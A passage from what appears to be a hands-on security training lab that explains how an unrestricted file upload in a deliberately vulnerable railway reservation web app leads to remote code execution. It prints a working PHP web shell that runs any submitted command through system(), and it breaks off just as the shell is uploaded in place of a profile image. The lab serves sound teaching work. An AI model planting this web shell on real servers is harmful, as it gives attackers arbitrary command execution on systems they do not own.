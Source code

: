 Okay, now that we're familiar with a remote code execution vulnerability and how it works, let's take a look at how we would exploit it!

## Practice Makes Perfect

To understand how a file upload vulnerability can result in an RCE, the best approach is to get some hands-on experience with it. A handy (and ethical) way to do this is to find and download a reputable open-source web application which has this vulnerability built into it. Many open-source projects exist in places like GitHub, which can be run in your own environment to experiment and practice. In today's task, we will demonstrate achieving RCE via unrestricted file upload within an [open-source railway management system](https://github.com/CYB84/CVE_Writeup/tree/main/Online%20Railway%20Reservation%20System) that has this vulnerability [built into it](https://github.com/CYB84/CVE_Writeup/blob/main/Online%20Railway%20Reservation%20System/RCE%20via%20File%20Upload.md).   

## Exploiting RCE via File Upload

Now we're going to go through how this vulnerability can be exploited. For now, you can just read along, but an opportunity to put this knowledge into practice is coming up. Once an RCE vulnerability has been identified that can be exploited via file upload, we now need to create a malicious file that will allow remote code execution when uploaded.

Below is an example PHP file which could be uploaded to exploit this vulnerability. Using your favourite text editor, copy and paste the below code and save it as shell.php.

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

The above script, when accessed, displays an input field. Whatever is entered in this input field is then run against the underlying operating system using the `system()` PHP function, and the output is displayed to the user. This is the perfect file to upload to the vulnerable rail system reservation application. The vulnerability is surrounding the upload of a new profile image. So, to exploit it, we navigate to the profile picture page:

![Railway profile page](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053142390.png)

Instead of a new profile picture, we can upload our malicious PHP script and update our profile:
